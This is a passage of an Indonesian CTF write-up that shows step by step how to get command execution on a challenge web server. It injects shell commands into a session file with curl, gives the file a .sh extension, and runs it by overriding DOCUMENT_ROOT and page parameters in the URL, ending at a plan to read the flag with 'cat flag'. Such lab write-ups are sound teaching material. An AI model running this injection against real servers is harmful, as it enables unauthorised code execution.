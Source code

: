 Sekarang kita akan coba eksekusi *session file* yang memiliki *shell command* `ls;` tersebut, dengan menggunakan URL:	

	https://school.fluxfingers.net:1503/?DOCUMENT_ROOT=/var/sessions&page=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8&DEBUG=1&sessid=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8
	
Ups! Terjadi kesalahan **500 - Internal Server Error**. Seperti kesalahan sebelumnya, ini terjadi karena *bash file* tidak ditemukan. File tersebut kita atur pada parameter `page`. Kita lihat lagi *source code*-nya:

```bash
file="$DOCUMENT_ROOT/$page.sh"
```

Ternyata *session file* harus memiliki ekstensi `.sh`, dalam kasus ini adalah `ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8.sh`. 

Berhubung di `/var/sessions` saat ini hanya memiliki file dengan nama `ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8` (tanpa ekstensi`.sh`), maka kita harus buat terlebih dahulu dengan mengatur parameter `sessid` yang nilainya ditambahkan string `.sh` sebagai ekstensi:

	https://school.fluxfingers.net:1503/?sessid=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8.sh
	
Nah, sekarang *list* perintah `ls;` yang kita atur sebelumnya menjadi hilang, karena *session file* sudah berbeda dengan yang sebelumnya setelah ditambahkan ekstensi `.sh`.

Sekarang kita tambahkan *shell command* dengan menggunakan `curl` seperti sebelumnya dengan alamat baru:

	curl 'https://school.fluxfingers.net:1503/?sessid=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8.sh' --data 'msg=ls;'
	
Perintah `ls;` baru telah ditambahkan. Saatnya kita eksekusi pada URL:

	https://school.fluxfingers.net:1503/?DOCUMENT_ROOT=/var/sessions&page=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8&sessid=ea57b3d27a57f68ccf6001a6e51f9801b74a80592c5885c5aec5bc29c4b8.sh
	
*Bump!* Sesuai yang diperkirakan, perintah tereksekusi dan menghasilkan sesuatu yang menarik:

![Flag](img/09.png)

Terdapat *file* dengan nama `flag`. Untuk membaca file `flag` tersebut, dapat menggunakan dua opsi metode, yaitu:

* Akses langsung file `flag` menggunakan URL `https://school.fluxfingers.net:1503/flag`. Bukan tantangan namanya jika mudahnya menggunakan metode ini, karena pasti akan menghasilkan **403 - Forbidden**. Skip! `:)`
* Injeksi *shell command* dengan menggunakan perintah `cat flag`.
